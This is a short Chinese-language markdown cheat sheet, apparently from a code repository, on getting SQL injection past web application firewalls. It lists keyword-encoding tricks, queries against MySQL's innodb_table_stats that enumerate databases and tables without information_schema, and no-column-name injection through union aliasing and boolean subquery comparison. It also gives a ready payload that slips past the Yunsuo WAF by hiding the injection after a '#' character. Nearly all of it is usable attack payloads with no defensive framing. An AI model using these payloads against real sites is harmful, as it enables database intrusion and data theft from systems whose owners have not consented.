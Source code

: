 # WAF
---
## 通用
1. and -> %26(&)
2. , -> join
3. mysql版本大于5.6.x新增加的两个表**innodb_index_stats**和**innodb_table_stats**,主要是记录的最近数据库的变动记录,可用于代替informaiton_schema查询库名和表名.  
```sql
    select database_name from mysql.innodb_table_stats group by database_name;
    select table_name from mysql.innodb_table_stats where database_name=database();
 ```
4. 无列名注入,将目标字段与已知值联合查询,利用别名查询字段数据
```sql
    select group_concat(`2`) from (select 1,2 union select * from user)x 
```
5. 无列名注入,利用子查询一个字段一个字段进行大小比较进行布尔查询
```sql
    select ((select 1,0)>(select * from user limit 0,1))
```

## 安全狗

## 云锁
1. #后面的默认为注释,不进行检查,`?id=1#' union select user()--+`即可